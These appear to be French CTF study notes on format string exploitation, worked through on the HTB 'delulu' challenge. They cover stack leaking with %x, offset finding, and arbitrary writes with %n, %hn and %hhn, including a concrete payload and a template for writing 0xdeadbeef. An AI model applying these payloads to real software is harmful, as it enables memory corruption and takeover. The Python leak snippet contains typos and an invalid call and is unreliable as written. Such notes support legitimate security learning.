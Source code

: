 # Documentation 

- https://axcheron.github.io/exploit-101-format-strings/
- https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
- https://github.com/LMS57/TempleOfPwn/blob/main/format/exploit.py
- https://github.com/4nuit/Writeup/tree/master/2024/HTB_CyberApocalypse/pwn/pwn_delulu

## Trouver un offset

```bash
%400x
%400d
```

-> vérifier avec gdb le contrôle de eip

## Lire en mémoire 


```python 
print('%08x-'*200) #exploit en hex
l=s.split().replace("-"," ") #s=mem exploit 

m=[]
for i in range(len(l)):
        ba=byterray.fromhex(l[i])
        ba.reverse() #big 
        m.append(''.join(format(x,'c') for x in ba))
```

## Ecrire en mémoire 
 
- %n écrit sur 4 bytes-> adresse énorme en hexa 
- on écrit par groupe de 2 bytes avec %hn
- possible d'écrire byte par byte avec %hhn

### Déterminer le n

On a dans le code d'une part:

![fmt](./images/fmt.png)


D'autre part:

```bash
The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> 
[!] Checking.. eb31dbb0.0.96714887.10.7fffffff.1337babe.eb31fcd0.252e7825.2e78252e.78252e78.
[-] ALERT ALERT ALERT ALERT

┌─[night@night-20b7s2ex01]─[~/htb/pwn/delulu]
└──╼ 5 fichiers, 36Kb)─$ python -c "print('%x.'*20)" | ./delulu 
```

- repérer le check visuellement dans la pile: **ici l'offset est de 6**

- obtenir l'addresse du check: **ici le code est bien fait: var40=&var38 est stockée juste après donc le $n=7**

Ainsi pour modifier les lows bytes du check `babe` en `beef`:

```bash
rax2 0xbeef
48879
```

```c
%48879d%7$hn
```

### Call free / malloc

print 2**16-1

```
%100000x
```

### Exploit

0xdeadbeef = 0xdead (high) "+" 0xbeef (low)

- `[hexa à écrire]%x [n contrôlé]$n` 

**ou**

- `[endian(adresse écriture low) + endian(addresse écriture high = low +2)]%[hexa low à écrire - 8]x%[n contrôlé]$hn%[hexa abs((low-8)-(high-8)) à écrire]x%[n+1] $hn"')`


**ou** en 4 avec %hhn ...

